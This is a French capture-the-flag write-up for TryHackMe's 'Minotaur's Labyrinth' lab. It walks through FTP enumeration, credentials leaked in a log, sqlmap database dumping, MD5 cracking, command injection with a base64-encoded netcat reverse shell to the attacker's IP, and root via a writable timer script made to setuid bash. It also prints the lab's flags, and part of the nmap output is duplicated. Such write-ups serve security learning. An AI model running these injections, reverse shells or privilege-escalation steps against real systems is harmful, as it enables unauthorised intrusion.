

# Minotaur's Labyrinth #

## Task 1 Find the flags ##

```bash
sudo sh -c "echo '10.10.213.240 minautor.thm ' >> /etc/hosts"
tim@kali:~/Bureau/tryhackme/write-up$ nmap_all minautor.thm
sudo nmap -A minautor.thm -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-06 20:30 CET
Nmap scan report for minautor.thm (10.10.213.240)
Host is up (0.063s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x   3 nobody   nogroup      4096 Jun 15 14:57 pub
80/tcp   open  http     Apache httpd 2.4.48 ((Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1)
|_http-server-header: Apache/2.4.48 (Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1
| http-title: Login
|_Requested resource was login.html
443/tcp  open  ssl/http Apache httpd 2.4.48 ((Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1)
| ssl-cert: Subject: commonName=localhost/organizationName=Apache Friends/stateOrProvinceName=Berlin/countryName=DE
| Not valid before: 2004-10-01T09:10:30
|_Not valid after:  2010-09-30T09:10:30
|_http-server-header: Apache/2.4.48 (Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-title: Bad request!
3306/tcp open  mysql?
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/6%OT=21%CT=1%CU=34770%PV=Y%DS=2%DC=T%G=Y%TM=6186D8A
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)tim@kali:~/Bureau/tryhackme/write-up$ nmap_all minautor.thm
sudo nmap -A minautor.thm -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-06 20:30 CET
Nmap scan report for minautor.thm (10.10.213.240)
Host is up (0.063s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x   3 nobody   nogroup      4096 Jun 15 14:57 pub
80/tcp   open  http     Apache httpd 2.4.48 ((Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1)
|_http-server-header: Apache/2.4.48 (Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1
| http-title: Login
|_Requested resource was login.html
443/tcp  open  ssl/http Apache httpd 2.4.48 ((Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1)
| ssl-cert: Subject: commonName=localhost/organizationName=Apache Friends/stateOrProvinceName=Berlin/countryName=DE
| Not valid before: 2004-10-01T09:10:30
|_Not valid after:  2010-09-30T09:10:30
|_http-server-header: Apache/2.4.48 (Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-title: Bad request!
3306/tcp open  mysql?
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/6%OT=21%CT=1%CU=34770%PV=Y%DS=2%DC=T%G=Y%TM=6186D8A
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   32.25 ms 10.9.0.1
2   67.26 ms minautor.thm (10.10.213.240)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 212.23 seconds

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   32.25 ms 10.9.0.1
2   67.26 ms minautor.thm (10.10.213.240)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 212.23 seconds

```

Nmap nous montre plusieurs services qui sont : 
Le service FTP sur le port 21.   
Le service HTTP sur le port 80.   
Le service HTTPS sur le port 443.   
Le service MYSQL sur la port 3306.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp minautor.thm
Connected to minautor.thm.
220 ProFTPD Server (ProFTPD) [::ffff:10.10.213.240]
Name (minautor.thm:tim): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   3 root     root         4096 Jun 15 14:45 .
drwxr-xr-x   3 root     root         4096 Jun 15 14:45 ..
drwxr-xr-x   3 nobody   nogroup      4096 Jun 15 14:57 pub
226 Transfer complete
ftp> cd pub
250 CWD command successful
ftp> get message.txt
local: message.txt remote: message.txt
200 PORT command successful
150 Opening BINARY mode data connection for message.txt (141 bytes)
226 Transfer complete
141 bytes received in 0.24 secs (0.5620 kB/s)
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 root     root         4096 Jun 15 19:49 .
drwxr-xr-x   3 nobody   nogroup      4096 Jun 15 14:57 ..
-rw-r--r--   1 root     root           30 Jun 15 19:49 flag.txt
-rw-r--r--   1 root     root          114 Jun 15 14:56 keep_in_mind.txt
226 Transfer complete
ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful
150 Opening BINARY mode data connection for flag.txt (30 bytes)
226 Transfer complete
30 bytes received in 0.00 secs (80.2654 kB/s)
ftp> get keep_in_mind.txt
local: keep_in_mind.txt remote: keep_in_mind.txt
200 PORT command successful
150 Opening BINARY mode data connection for keep_in_mind.txt (114 bytes)
226 Transfer complete
114 bytes received in 0.00 secs (63.3987 kB/s)
```

On se connecte on trouve 3 fichiers qui sont :
message.txt    
flag.txt
keep_in_mind.txt 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat message.txt 
Daedalus is a clumsy person, he forgets a lot of things arount the labyrinth, have a look around, maybe you'll find something :)
-- Minotaur
```

C'est juste un message pour dire de regarder de plus pour trouver quelque chose.  

**What is flag 1?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat flag.txt 
fl4g{tHa75_TH3_$7Ar7_ftPFLA9}
```

Le fichier flag.txt contient notre premier flag qui est : fl4g{tHa75_TH3_$7Ar7_ftPFLA9}    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat keep_in_mind.txt 
Not to forget, he forgets a lot of stuff, that's why he likes to keep things on a timer ... literally
-- Minotaur
```

Un autre message qui nous dit de pas oublier, il oublit beaucoup de chose, c'est pourquoi il aime garder les chose sur une minuterie.  

Un autre indice.  


Sur la page principale on a une page d'identification, on n'a pas d'indice pour les identifiants.  

```bash
gobuster dir -u http://minautor.thm -w /usr/share/dirb/wordlists/common.txt -t 100 -q
Error: the server returns a status code that matches the provided options for non existing urls. http://minautor.thm/275d71c9-866f-44de-9969-d13520ab030b => 302 (Length: 3562). To continue please exclude the status code, the length or use the --wildcard switch


tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u minautor.thm -w /usr/share/dirb/wordlists/common.txt --exclude-length 3562 -q
/.htpasswd            (Status: 403) [Size: 1020]
/.htaccess            (Status: 403) [Size: 1020]
/api                  (Status: 301) [Size: 232] [--> http://minautor.thm/api/]
/cgi-bin/     er di        (Status: 301) [Size: 232] [--> http://minautor.thm/css/]
/imgs                 (Status: 301) [Size: 233] [--> http://minautor.thm/imgs/]
/js                   (Status: 301) [Size: 231] [--> http://minautor.thm/js/]  
/logs                 (Status: 301) [Size: 233] [--> http://minautor.thm/logs/]
/phpmyadmin           (Status: 403) [Size: 1189]                               
```

On remarque plusieurs répertoires trouvés par gobuster.  


```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat post_log.log 
POST /minotaur/minotaur-box/login.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 36
sec-ch-ua: "Chromium";v="93", " Not;A Brand";v="99"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/minotaur/minotaur-box/login.html
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=8co2rbqdli7itj8f566c61nkhv
Connection: close

email=Daedalus&password=g2e55kh4ck5r

```

On remarque un répertoire logs, puis on va dans post et on trouve un ficher post_log.log.  
Dans post_log.log on trouve des identifiants qui sont : Daedalus:g2e55kh4ck5r  


On se connecte avec les identifiants.  


On récupère une requête avec burp. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -r input.req --flush --dump
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.5.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:40:53 /2021-11-07/
...
Table: people
[5 entries]
+----------+--------------+----------------------------------+------------------+
| idPeople | namePeople   | passwordPeople                   | permissionPeople |
+----------+--------------+----------------------------------+------------------+
| 1        | Eurycliedes  | 42354020b68c7ed28dcdeabd5a2baf8e | user             |
| 2        | Menekrates   | 0b3bebe266a81fbfaa79db1604c4e67f | user             |
| 3        | Philostratos | b83f966a6f5a9cff9c6e1c52b0aa635b | user             |
| 4        | Daedalus     | b8e4c23686a3a12476ad7779e35f5eb6 | user             |
| 5        | M!n0taur     | 1765db9457f496a39859209ee81fbda4 | admin            |
+----------+--------------+----------------------------------+------------------+

[21:41:36] [INFO] table 'labyrinth.people' dumped to CSV file '/home/tim/.local/share/sqlmap/output/minautor.thm/dump/labyrinth/people.csv'
```

Avec sqlmap on extrait des données qui les identifiants des utilisateurs.   
Les identifiants M!n0taur:1765db9457f496a39859209ee81fbda4 sont intéressant.   
Le mot de passe est sous forme de hash.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ haiti 1765db9457f496a39859209ee81fbda4
MD5 [HC: 0] [JtR: raw-md5]

tim@kali:~/Bureau/tryhackme/write-up$ echo '1765db9457f496a39859209ee81fbda4' > hash

john hash -w=/usr/share/wordlists/rockyou.txt --format=raw-md5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
aminotauro       (?)
1g 0:00:00:00 DONE (2021-11-07 21:47) 1.886g/s 19176Kp/s 19176Kc/s 19176KC/s amir71..aminmunee
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

On identifit le hash comme du md5.   
On casse le hash et on trouve le mot de passe qui est : aminotauro    

**What is flag 2?**

 
 
 
On se connecte avec les nouveaux identifiants.   
Dans le menu de la page on trouve le flag 2.   

La flag est : fla6{7H@Ts_Dat48as3_F149}   

**What is the user flag?**

 

Dans secret stuff on tombre sur une page qui nous demande une saisie.    

 
   

On fait un test en mettant du code php pour exécuter une commande mais il y un message qui fait penser que des caractères sont filtrés.  

Dans astuce on voit qu'il y a bien un filtrage regex.  

   

Avec echo `` on peut lancer des commandes.   
On lit le fichier /etc/passwd ça fonctionne.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
```

On écoute sur le port 1234.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo 'rm /tmp/f;mkfifo /tmp/f; cat /tmp/f | /bin/sh  -i 2>&1| nc 10.9.228.66  1234   >/tmp/f   ' | base64
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoICAtaSAyPiYxfCBu
YyAxMC45LjIyOC42NiAgMTIzNCAgID4vdG1wL2YgICAK
``` 

On génère notre shell en base64 sans = et + mettre des espaces pour les faires disparaitres.  

```bash
http://minautor.thm/echo.php?search=%60ls+-al+%2Ftmp%2Fshell.sh%60
```

On lance le shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.72.193.
Ncat: Connection from 10.10.72.193:51442.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
bash: /root/.bashrc: Permission denied
daemon@labyrinth:/opt/lampp/htdocs$ ls /home
ls /home
anonftp  minotaur  user
daemon@labyrinth:/opt/lampp/htdocs$ ls /home/user	
ls /home/user
flag.txt
cat /home/user/flag.txt
fla9{5upeR_secr37_uSEr_flaG}
```

On obtient un shell.  
Dans /home/user on trouve un fichier flag.txt; on le lit et on a le flag.  
Le flag est : fla9{5upeR_secr37_uSEr_flaG}   

**What is the root flag?**

```bash
daemon@labyrinth:/opt/lampp/htdocs$ ls /
ls /
bin    home	       lost+found  reminders  srv	usr
boot   initrd.img      media	   root       swapfile	var
cdrom  initrd.img.old  mnt	   run	      sys	vmlinuz
dev    lib	       opt	   sbin       timers	vmlinuz.old
etc    lib64	       proc	   snap       tmp

daemon@labyrinth:/opt/lampp/htdocs$ cd /timers
cd /timers
daemon@labyrinth:/timers$ ls
ls
timer.sh
daemon@labyrinth:/timers$ cat timer.sh

cat timer.sh
#!/bin/bash
echo "dont fo...forge...ttt" >> /reminders/dontforget.txt

daemon@labyrinth:/timers$ echo 'chmod +s /bin/bash' >> timer.sh
echo 'chmod +s /bin/bash' >> timer.sh
```

On remarque un répertoire timers à la racines.  
Dans le répertoire il y a un scripte timer.sh.  
On modifie timer.sh pour rendre notre bash setuid.  
On attend un peu.  

```bash
/bin/bash -p
bash-4.4# id
id
uid=1(daemon) gid=1(daemon) euid=0(root) egid=0(root) groups=0(root),1(daemon)  
ls /root/
da_king_flek.txt  snap	xampp_setup_job
bash-4.4# cat /root/da_king_flek.txt
cat /root/da_king_flek.txt
fL4G{YoU_R0OT3d_1T_coN9ra7$}
```

On exécute bash en mode persistant.  
Dans le répertoire on root on un fichier da_king_flek.txt.  
On lit le fichier et on a notre flag qui est : fL4G{YoU_R0OT3d_1T_coN9ra7$}   

